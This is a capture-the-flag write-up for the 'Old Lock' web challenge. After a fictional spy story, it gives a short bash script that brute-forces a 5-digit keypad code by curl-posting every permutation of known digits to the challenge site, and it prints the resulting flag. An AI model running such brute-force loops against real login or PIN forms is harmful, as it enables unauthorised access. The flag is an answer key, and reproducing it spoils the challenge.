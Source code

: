 # Challenge #12 - Old Lock

Category: `web`

## Story

>Boy this has been a tough journey, you had luck that you entered a box that contained some food. You hear foul voices and feel that some people pick up your box, and carry it to another place. When the voices disappear, you take the chance to escape. You have successfully arrived in Singapore. You find a peaceful café, order a cup of tea and charge your cell phone. PLING, you’ve received another text message from the boss: "I pretend that I don’t know where you are, but I do. You’ll have to forgive me, but I’ve had a tracker on you all the time. You have finally reached Singapore, find "M/S. Revenger" and sneak onboard, it will take you to our enemy's hidden island, make it quick, the ship is leaving the harbor soon, I count on you AGENT!." Look, over there "M/S Revenger", you have to get closer! Hmm, but it seems quite guarded. You will have to swim! You go away from the ship and dive into the warm and clear water. It’s nice to go for a swim but you would have preferred it to be under more relaxed circumstances. You swim slowly towards the ship, finally you reach it, climb up on the side of it and in through a window. You find yourself in a cabin with locked doors. Thankfully, it's an electronic lock.<br/><br/>
>You're not sure what metal the keypad was made of, but either it was very soft, or whoever punches in the code has way too much strength in their fingers. This also means you're in luck, since it's pretty obvious which digits are actually used in the 5-digit code. The order is unknown, but there can't be that many possibilities, right? Note: Online brute forcing is allowed in this task.

## Solution

This challenge comes with a URL: https://old-lock-web.2021.ctfcompetition.com/

Let's visit it and see what we're dealing with.

There's a keypad with some clearly worn-out buttons.

![Keypad with worn out buttons 3, 5, 7, 8 and 0](old_keypad.png)

There are also some instructions.

![Instructions to try a 5-digit code](instructions.png)

This seems pretty straightforward. It says it's a 5-digit code and there are 5 buttons worn out, so we just need to generate and try all the [permutations](https://en.wikipedia.org/wiki/Permutation) of `35780` (see [solve.sh](solve.sh)). This is easy to do because the webpage simply submits a form with the `v` parameter.

```sh
#!/bin/bash

# Generate permutations.
permutations=($(python -c 'from itertools import permutations; print("\n".join(["".join(perm) for perm in permutations("35780")]))'))


# Try them out.
for perm in ${permutations[@]}; do
  echo -n "Checking ${perm}... "
  body="$(curl -s -X POST -F "v=${perm}" https://old-lock-web.2021.ctfcompetition.com/)"
  if echo -ne "${body}"| grep -q 'Hmm no'; then
    echo 'WRONG'
  else
    echo 'RIGHT'
    echo -ne "${body}" | grep -o 'CTF{.*}'
    exit 0
  fi
done

exit 1
```

Running this quickly gives us the flag.

```
CTF{IThinkWeNeedToReplaceTheKeypad}
```
